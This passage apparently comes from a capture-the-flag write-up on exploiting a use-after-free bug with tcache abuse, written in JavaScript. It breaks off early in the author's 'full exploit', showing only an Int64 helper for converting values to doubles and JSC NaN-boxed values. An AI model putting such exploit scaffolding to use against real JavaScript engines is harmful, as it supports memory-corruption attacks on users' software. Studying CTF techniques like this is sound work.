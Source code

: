 Welp there goes that idea. In the end since this is a UAF already all we have to do is get a leak and abuse the tcache bin in a basic way. Oh, and we have to do it all in JS, instead of my usual python+pwntools. I found [this](https://gist.github.com/itszn/73cc299b9bcff1ed585e6206d1ade58e) gist on github which helped me with the utility functions that I needed.

Here's my full exploit:

```js
function Int64(v) {
    // The underlying byte array.
    var bytes = new Uint8Array(8);

    switch (typeof v) {
        case 'number':
            v = '0x' + Math.floor(v).toString(16);
        case 'string':
            if (v.startsWith('0x'))
                v = v.substr(2);
            if (v.length % 2 == 1)
                v = '0' + v;

            var bigEndian = unhexlify(v, 8);
            bytes.set(Array.from(bigEndian).reverse());
            break;
        case 'object':
            if (v instanceof Int64) {
                bytes.set(v.bytes());
            } else {
                if (v.length != 8)
                    throw TypeError("Array must have excactly 8 elements.");
                bytes.set(v);
            }
            break;
        case 'undefined':
            break;
        default:
            throw TypeError("Int64 constructor requires an argument.");
    }

    // Return a double whith the same underlying bit representation.
    this.asDouble = function() {
        // Check for NaN
        if (bytes[7] == 0xff && (bytes[6] == 0xff || bytes[6] == 0xfe))
            throw new RangeError("Integer can not be represented by a double");

        return Struct.unpack(Struct.float64, bytes);
    };

    // Return a javascript value with the same underlying bit representation.
    // This is only possible for integers in the range [0x0001000000000000, 0xffff000000000000)
    // due to double conversion constraints.
    this.asJSValue = function() {
        if ((bytes[7] == 0 && bytes[6] == 0) || (bytes[7] == 0xff && bytes[6] == 0xff))
            throw new RangeError("Integer can not be represented by a JSValue");

        // For NaN-boxing, JSC adds 2^48 to a double value's bit pattern.
        this.assignSub(this, 0x1000000000000);
        var res = Struct.unpack(Struct.float64, bytes);
        this.assignAdd(this, 0x1000000000000);

        return res;
    };

    // Return the underlying bytes of this number as array.
    this.bytes = function() {
```